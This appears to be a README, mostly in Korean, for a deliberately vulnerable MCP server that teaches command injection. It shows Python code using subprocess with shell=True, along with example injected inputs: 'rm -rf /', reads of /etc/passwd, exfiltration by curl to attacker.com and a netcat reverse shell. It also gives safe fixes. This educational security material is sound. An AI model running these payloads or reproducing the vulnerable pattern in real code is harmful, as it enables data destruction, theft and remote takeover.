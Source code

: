 # Vulnerable MCP Server - Command Injection 예제

## ⚠️ CRITICAL SECURITY WARNING ⚠️

**🚨 THIS SOFTWARE IS INTENTIONALLY VULNERABLE AND FOR EDUCATIONAL PURPOSES ONLY 🚨**

- ❌ **DO NOT USE IN PRODUCTION ENVIRONMENTS**
- ❌ **DO NOT USE ON SYSTEMS WITH REAL DATA**
- ❌ **DO NOT USE ON SYSTEMS ACCESSIBLE TO UNTRUSTED USERS**
- ✅ **USE ONLY IN ISOLATED, CONTROLLED ENVIRONMENTS**
- ✅ **USE ONLY FOR EDUCATIONAL AND TESTING PURPOSES**

**This software contains intentional Command Injection vulnerabilities for security education.**

## 개요

이 프로젝트는 Command Injection 취약점을 보여주는 교육용 MCP (Model Context Protocol) 서버입니다. 보안 취약점의 위험성을 이해하고 안전한 코딩 방법을 학습하기 위한 목적으로 제작되었습니다.

## 포함된 취약점

### 1. search_files 함수
```python
command = f"find ./sandbox -name '{filename}' 2>/dev/null"
result = subprocess.run(command, shell=True, capture_output=True, text=True)
```

**취약점**: 사용자 입력이 직접 shell 명령어에 삽입됩니다.

**공격 예시**:
```
filename = "test.txt; rm -rf /"
filename = "test.txt && cat /etc/passwd"
filename = "test.txt | nc attacker.com 4444"
```

### 2. list_directory 함수
```python
command = f"ls -la '{path}' 2>/dev/null"
result = subprocess.run(command, shell=True, capture_output=True, text=True)
```

**취약점**: 경로 입력이 직접 shell 명령어에 삽입됩니다.

**공격 예시**:
```
path = "/tmp; cat /etc/passwd"
path = "/tmp && whoami"
path = "/tmp | curl -X POST http://attacker.com/data -d @/etc/passwd"
```

### 3. execute_command 함수
```python
result = subprocess.run(command, shell=True, capture_output=True, text=True)
```

**취약점**: 사용자 입력을 그대로 shell에서 실행합니다. 가장 위험한 취약점입니다.

**공격 예시**:
```
command = "rm -rf /"
command = "curl -X POST http://attacker.com -d @/etc/passwd"
command = "nc -e /bin/bash attacker.com 4444"
```

## 실행 방법

1. Python 3.7 이상이 설치되어 있는지 확인하세요.

2. 서버 실행:
```bash
python vulnerable_mcp_server.py
```

3. JSON-RPC 요청으로 도구 호출:
```json
{
  "jsonrpc": "2.0",
  "id": 1,
  "method": "tools/call",
  "params": {
    "name": "search_files",
    "arguments": {
      "filename": "test.txt"
    }
  }
}
```

## 안전한 대안

### 1. subprocess.run에서 shell=False 사용
```python
# 안전한 방법
result = subprocess.run(
    ["find", "./sandbox", "-name", filename],
    capture_output=True,
    text=True
)
```

### 2. 입력 검증 및 이스케이프
```python
import shlex

# 입력 검증
if not filename.replace("_", "").replace("-", "").replace(".", "").isalnum():
    raise ValueError("Invalid filename")

# 안전한 이스케이프
safe_filename = shlex.quote(filename)
command = f"find ./sandbox -name {safe_filename}"
```

### 3. 허용된 명령어만 실행
```python
ALLOWED_COMMANDS = ["ls", "find", "grep"]

def execute_safe_command(command_name, *args):
    if command_name not in ALLOWED_COMMANDS:
        raise ValueError("Command not allowed")
    
    result = subprocess.run(
        [command_name] + list(args),
        capture_output=True,
        text=True
    )
    return result
```

## 보안 모범 사례

1. **입력 검증**: 모든 사용자 입력을 검증하고 정제합니다.
2. **최소 권한 원칙**: 필요한 최소한의 권한만 부여합니다.
3. **화이트리스트**: 허용된 명령어나 패턴만 사용합니다.
4. **이스케이프**: 특수 문자를 적절히 이스케이프합니다.
5. **로그 기록**: 모든 명령어 실행을 로그에 기록합니다.

## 법적 고지

이 코드는 교육 목적으로만 제공됩니다. 악의적인 목적으로 사용하는 것은 불법이며, 저자는 그에 대한 책임을 지지 않습니다. 실제 시스템에서 테스트할 때는 격리된 환경에서만 수행하세요.

## 추가 학습 자료

- [OWASP Command Injection](https://owasp.org/www-community/attacks/Command_Injection)
- [Python subprocess 보안 가이드](https://docs.python.org/3/library/subprocess.html#security-considerations)
- [MCP 공식 문서](https://modelcontextprotocol.io/)






